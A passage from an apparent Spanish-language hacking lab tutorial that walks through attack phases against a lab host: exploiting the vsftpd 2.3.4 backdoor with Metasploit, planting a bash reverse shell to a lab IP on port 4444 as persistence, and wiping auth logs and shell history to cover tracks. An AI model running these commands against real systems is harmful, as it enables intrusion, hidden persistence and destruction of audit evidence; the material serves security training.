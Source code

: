 
#### 🎯 Fase 3: Gaining Access

Usamos Metasploit para explotar una vulnerabilidad conocida en FTP:

```bash
msfconsole
```

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.56.101
run
```

💥 ¡Acceso root conseguido!

---

#### 🔒 Fase 4: Mantener Acceso

Creamos una puerta trasera (backdoor):

```bash
echo "bash -i >& /dev/tcp/192.168.56.102/4444 0>&1" >> /tmp/.backdoor.sh
```

Y la configuramos para ejecutarse automáticamente.

---

#### 🧗 Fase 5: Escalada de Privilegios

Si accedimos como usuario, usamos herramientas como `linpeas.sh` o `sudo -l` para ver vulnerabilidades.

---

#### 🧹 Fase 6: Cubrir Huellas

Limpiamos logs:

```bash
echo > /var/log/auth.log
```

O borramos historial:

```bash
history -c
```

---

### ✅ Resultado Final

Has simulado un ataque real paso a paso, desde reconocimiento hasta ocultamiento, siguiendo el **modelo Kill Chain**. Este enfoque te permite estudiar cada etapa con profundidad y reforzar tus habilidades de análisis, defensa y ataque.

---